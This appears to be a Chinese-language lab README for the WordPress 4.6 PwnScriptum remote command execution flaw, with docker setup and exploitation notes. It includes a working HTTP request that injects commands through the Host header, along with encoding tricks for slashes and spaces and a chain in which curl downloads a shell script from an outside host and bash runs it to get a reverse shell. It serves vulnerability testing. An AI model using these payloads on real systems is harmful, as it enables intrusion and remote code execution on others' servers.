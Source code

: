 # Wordpress 4.6 任意命令执行漏洞（PwnScriptum）

## 原理

参考 https://exploitbox.io/vuln/WordPress-Exploit-4-6-RCE-CODE-EXEC-CVE-2016-10033.html

## 测试环境

编译及运行测试环境

```
docker compose build
docker compose up -d
```

由于Mysql初始化需要一段时间，所以请等待。成功运行后，访问`http://your-ip:8080/`打开站点，初始化管理员用户名和密码后即可使用（数据库等已经配置好，且不会自动更新）。

## 测试与EXP使用

发送如下数据包，可见`/tmp/success`已经成功创建：

```
POST /wp-login.php?action=lostpassword HTTP/1.1
Host: target(any -froot@localhost -be ${run{${substr{0}{1}{$spool_directory}}bin${substr{0}{1}{$spool_directory}}touch${substr{10}{1}{$tod_log}}${substr{0}{1}{$spool_directory}}tmp${substr{0}{1}{$spool_directory}}success}} null)
Connection: close
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Accept: */*
Content-Length: 56
Content-Type: application/x-www-form-urlencoded

wp-submit=Get+New+Password&redirect_to=&user_login=admin
```

但实际利用起来，还是有一些坑需要踏过。具体的坑有这么几个：

1. 执行的命令不能包含大量特殊字符，如`:`、引号等。
2. 命令会被转换成小写字母
3. 命令需要使用绝对路径
4. 需要知道某一个存在的用户的用户名

为了解决这些坑，漏洞作者想出了，利用`${substr{0}{1}{$spool_directory}}`代替`/`，用`${substr{10}{1}{$tod_log}}`代替空格的方法。

但是还是有很多字符不能用，所以我们需要将待执行的命令放到第三方网站中，然后通过`curl -o /tmp/rce example.com/shell.sh`的方法先将他下载到/tmp目录中，再去执行。

所以，总体来说利用过程如下：

- 编写反弹shell的exp，放到某个网页里。有如下要求：
  - 整个url的大写字母会被转换成小写，所以大写小敏感的系统不要使用大写字母做文件路径
  - 访问该网页不能跳转，因为follow跳转的参数是`-L`（大写）
- 拼接成命令`/usr/bin/curl -o/tmp/rce example.com/shell.sh`和命令`/bin/bash /tmp/rce`
- 将上述命令中的空格和`/`转换成`${substr{10}{1}{$tod_log}}`和`${substr{0}{1}{$spool_directory}}`
- 拼接成HTTP包的Host头：`target(any -froot@localhost -be ${run{command}} null)`
- 依次发送这两个拼接好的数据包

我将上述过程写成[exp脚本](exploit.py)，将脚本中target修改成你的目标，user修改成一个已经存在的用户，`shell_url`修改成你放置payload的网址。（或直接将target作为第一个参数、`shell_url`作为第二个参数）

执行即可获得shell：

![](1.png)
